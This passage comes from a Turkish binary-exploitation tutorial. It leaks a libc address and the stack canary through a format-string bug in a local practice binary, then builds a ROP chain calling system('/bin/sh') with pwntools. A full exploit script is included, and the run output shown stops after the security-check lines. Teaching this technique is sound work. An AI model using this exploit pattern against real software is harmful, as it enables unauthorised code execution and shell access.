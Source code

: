 adresini bulduğumuz offset ile hesaplıyoruz. Artık `libc`nin adresini biliyoruz, ancak bunu doğru kullanmamız
lazım. Hatırlarsanız önceki bölümde bulduğumuz gadgetların adreslerini `libc`nin orjinal adresine eklemiştik.
Bu sefer bu yeni adrese ekleme yapacağız ve dinamik olarak gadgetların lokasyonunu bulacağız:
```python
payload  = b"A"*56                             # answer + name
payload += p64(int(cookie, 16))                # cookie
payload += b"A"*8                              # rbp
payload += p64(libc.address+0x277e5)           # pop rdi; ret
```
Sıra `/bin/sh` stringinde, bunu hesaplamak yerine aslında pwntools'un bize sunduğu sembol arama özelliğini
kullanabiliriz:
```python
payload += p64(next(libc.search(b"/bin/sh")))  # /bin/sh
```
sonrasında `ret` gadegetımız ve de `system()` çağrımız var, `system()` çağrısı için de `libc` objesinin doğrudan
sembollerine pwntools aracılığı ile erişebiliriz:
```python
payload += p64(libc.address+0x26e99)           # ret
payload += p64(libc.sym["system"])             # system()
```
Son olarak exploiti, payload'ımızı `stdin`e göndererek tamamlayalım:
```python
from pwn import *

context.update(arch="amd64", os="linux")
elf = context.binary = ELF("./0x4.elf")
libc = elf.libc
p = process("./0x4.elf")

p.recvuntil(b"\n")
p.sendline(b"%5$p,%13$p,")
line   = p.recvline().split(b",")
leak   = line[0]
cookie = line[1]
info(f"Leaked libc address: {leak.decode()}")
info(f"Leaked cookie: {cookie.decode()}")

libc.address = int(leak, 16) - 0x1d2a80
info(f"Found libc base: {hex(libc.address)}")

payload  = b"A"*56                            # answer + name
payload += p64(int(cookie, 16))               # cookie
payload += b"A"*8                             # rbp
payload += p64(libc.address+0x277e5)          # pop rdi; ret
payload += p64(next(libc.search(b"/bin/sh"))) # /bin/sh
payload += p64(libc.address+0x26e99)          # ret
payload += p64(libc.sym["system"])            # system()

p.sendline(payload)
p.interactive()
```
Herşey hazır olduğuna göre exploitimizi test edebiliriz:
```
root@o101:~/0x4# toggle-aslr
ASLR is now ON!
root@o101:~/0x4# python3 solve.py
[*] '/root/0x4/0x4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
```